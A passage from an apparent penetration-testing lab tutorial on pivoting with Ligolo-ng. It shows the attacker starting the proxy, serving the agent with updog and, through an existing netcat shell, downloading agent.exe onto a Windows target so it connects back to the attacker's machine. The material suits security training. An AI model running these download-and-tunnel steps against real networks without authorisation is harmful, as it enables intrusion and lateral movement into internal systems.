 ./proxy -h

![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEixVbB1mW2i2xB9glLOefgy8TyEvM8_URqUwRQ-BKUX3bFVLqP9poZa9DNARDxQHCZSTcASOPFPKwIL2-6NsoEP8vibBqeGQ0KjXWQ-xBwxOu9lxJSauawKNZXGYl5F0CNodRaAG1aXSM2QnXkZ3PPaJT0dMPRmPChpYGEH-Q_RGtUXxlu9o9qzfFyQXsAw/s16000/3.png)

**Step 3:** The options displayed in the preceding image are designed for incorporating various types of certificates with the proxy. The chosen approach involves utilizing the ‘-selfcert’ option, which operates on port 11601. Execute the provided command, as illustrated in the accompanying image below:

./proxy -selfcert

![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEiWh0HJjXDdD9vYKgyplERpPjc8vfY576KvWXxLPm6kXcP9LoQFimiK5_R8G6-EkwyzK8gYbOlDI6WutRat2VQi7f2d4_N-RunDDT_Pe7jNEq0hPDBnTjXp-XylDKwWOLZLjZubnVszI6wxG1tLlHPZwOgnYdsExnTGVjrg-sF-CKYFMWw_pMxQcFoGuTdU/s16000/4.png)

**Step 4:** By executing the aforementioned command, Ligolo-Ng becomes operational on the attacking machine. Subsequently, to install the Ligolo agent on the target machine, unzip the ligolo agent file using the command:

unzip ligolo-ng_agent_0.5.1_windows_amd64.zip

To facilitate the transmission of this agent file to the target, establish a server with the command:

updog -p 80

![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEiLOal782eqgI-9diryXXvQAwNgvurwpTWqkpz7_469K1D68HDYWU-U5cLCaIcL8mkN1rN1jXhnfzNjfRKm_LVxXbIspM_6FWCIYxYN2Xc7YZ7L2JLDnnqH-DLKfHA1aVjiDush5fZi6eBoKhNCyBZ71wQxLc0GsW2HTN0yJstCll4u9_k6aber5MwqF0M9/s16000/5.png)

**Step 5:** In the context of lateral movement, a session has been successfully acquired through netcat. Utilizing the established netcat connection, the next step involves downloading the Ligolo agent file onto the target system. Referencing the image below, execute the provided sequence of commands:

cd Desktop

powershell wget 192.168.1.5/agent.exe -o agent.exe

dir

![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhebsEEJ06iSf33oK0zvAykgTNCp-e_hjpCode1XTrnWsjxfdhMevtvvVv2XLV8MN3P5UQEbRlFtKQ4dmWzsua0sJTPPR0ovP59lM3-GcjDhxr9jAADkjyFrVFXX7IjMtzd559QYhbmhZC3q8c9zKuxApDS3-1HnG1pf4Kq4W31EGjRyWYaJezCbJNnoOS0/s16000/6.png)

**Step 6:** Evidently, the agent file has been successfully downloaded. Given that the proxy file is presently operational on Kali, the subsequent action involves executing the agent file.

./agent.exe -connect 192.168.1.5:11601 -ignore-cert

![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEj-sFXx1XOKCVK1q2h9s-lA9L7QqFCbu3MMmeGgFR8VjJiuRvjzW7Pf0KiHsVgMjuvFRfD8baJuzANZ_nyKhZXtVXDhPwoL2R4rjlSFNtButi7Ba0Hza3D9RIlwkc53pm5u_QW9Kq51EJyaQP-pT0XU-9eP-U6kHZh1YjQDOfNsiWedd0qA9Kl3sGNTkkFm/s16000/7.png)

Upon executing the specified command, a Ligolo session is initiated. Subsequently, employ the ‘session’ command, opting for ‘1’ to access the active session. Following the session establishment, execute the ‘ifconfig’ command as illustrated in the provided image.

Notably, it discloses the existence of an internal network on the server, denoted by the IPv4 Address 192.168.148.130/24. This discovery prompts further exploration into creating a tunnel through this internal network in the subsequent steps.

![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEg4mjv_1QxY6QZaw7nyR7vagoJ2pAGNmQvabLXHEQU4A8IcTvxhiI6QA7p3iYqeLypIi5uer5sEU_mREaQjF9UMurV8CpW0bnq-r7ScaSkRwteClFuc90e9TOh439PLonWVjH8oz7NKW_kggTno6FUymD-oVLm_ibJy4oIZmWoypXejeMyERQfF5lf8Ryop/s16000/8.png)

### Single Pivoting
